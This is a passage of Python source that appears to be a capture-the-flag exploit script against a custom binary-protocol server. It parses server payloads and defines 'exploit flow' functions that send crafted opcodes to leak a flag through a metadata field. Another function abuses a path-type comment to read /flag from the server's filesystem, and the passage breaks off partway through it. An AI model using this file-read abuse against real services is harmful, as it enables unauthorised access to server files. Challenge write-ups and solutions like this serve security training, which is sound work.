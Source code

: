 ```
    return out


def parse_kv_payload(payload: bytes) -> Dict[str, str]:
    """Best-effort parse of a key/value bundle produced by opcode 0x32.

    The server serializes a small structure with fields like "Author", "Comment",
    and "Software" using an internal container format. We conservatively scan the
    payload for printable tokens and map well-known keys to the token that follows.
    """
    # First, handle PNG tEXt-encoded bundles, which the server commonly emits
    # (Author/Software are stored as PNG text chunks).
    png = parse_png_text_chunks(payload)
    if png:
        return png

    tokens = tokenize_printables(payload)
    keys = {b"Author", b"Comment", b"Software"}
    out: Dict[str, str] = {}
    for i, tok in enumerate(tokens):
        # Allow cases like 'tEXtAuthor' by checking substring containment
        matched_key: Optional[bytes] = None
        for k in keys:
            if tok == k or (k in tok):
                matched_key = k
                break
        if matched_key and i + 1 < len(tokens):
            # Prefer the very next printable token as the value
            key = matched_key.decode("ascii", errors="ignore")
            val = tokens[i + 1].decode("utf-8", errors="ignore")
            # Guard against obviously invalid huge values
            if len(val) > 0:
                out[key] = val
    return out


# Exploit flow ---------------------------------------------------------------

def exploit_fetch_metadata(io) -> Tuple[Optional[Dict[str, str]], bytes]:
    # 0x10: enable session; 0x22: build default entry with flag in Author; 0x32 x01: request bundle
    send_cmd(io, b"\x10")
    io.recv(timeout=1.1)  # ignore 1-byte ack if present
    send_cmd(io, b"\x22")
    io.recv(timeout=1.1)
    send_cmd(io, b"\x32\x01")

    chunk = read_chunk(io, timeout=2.0)
    if not chunk:
        return None, b""
    tag, payload = chunk
    parsed = parse_kv_payload(payload)
    return parsed, payload


def exploit_fetch_flag_via_comment(io) -> bytes:
    """Abuse comment type=2 (path) to read /flag plaintext and return it."""
    # 0x10: enable
    send_cmd(io, b"\x10")
    io.recv(timeout=0.5)
    # 0x22: create default entry (comment type preset to 2)
    send_cmd(io, b"\x22")
    io.recv(timeout=0.5)
    # 0x31: set comment to path "/flag" (length-prefixed blob)
```